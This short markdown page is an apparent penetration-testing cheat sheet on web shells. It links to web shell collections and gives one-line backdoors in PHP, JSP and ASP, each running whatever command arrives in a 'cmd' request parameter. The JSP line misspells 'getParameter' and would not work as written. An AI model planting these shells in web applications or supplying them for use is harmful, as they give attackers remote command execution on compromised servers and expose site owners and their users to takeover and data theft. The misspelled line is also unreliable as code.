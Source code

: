 ```yaml
---
title: Web Shells
---
```

***

https://github.com/tennc/webshell

http://r57.gen.tr/
https://github.com/KaizenLouie/C99Shell-PHP7
https://www.1337pwn.com/best-php-web-shells/

#### PHP
<a name="php"></a> 
```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParamenter("cmd")); %>
```

#### ASP
```asp
<% eval request("cmd") %>
```
